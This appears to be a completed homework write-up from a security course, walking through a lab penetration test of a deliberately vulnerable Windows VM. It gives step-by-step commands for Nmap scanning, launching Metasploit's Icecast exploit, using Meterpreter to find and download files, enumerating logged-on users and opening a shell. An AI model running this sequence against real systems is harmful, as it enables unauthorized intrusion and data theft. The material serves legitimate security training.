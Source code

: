 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 ![Nmapcommand](images/Nmap.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer: searchsploit command in Kali
     ![searchsploit](images/searchsploit.PNG)
     2.
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
     ![msfconsole](images/msfconsole.PNG)

4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
     ![msfconsole-search](images/msfconsole-search.PNG)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     ![use](images/use.PNG)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20
 ![set-rhosts](images/set-rhosts.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
 ![run](images/run.PNG)
   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: `search -f *secretfile*.txt`
  ![secretfile location](images/secret-filepath.PNG)
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
  ![recipe filepath](images/recipe-filepath.PNG)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download
   ![download](images/download.png)

![kali](images/kali-ls.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![suggester](images/suggester.PNG)

#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_all_logged_on_users
 ![Enumerate all logged in users](images/enumerate-loggedusers.PNG)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
  ![shell](images/shell.PNG)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
![systeminfo](images/systeminfo.PNG)


---
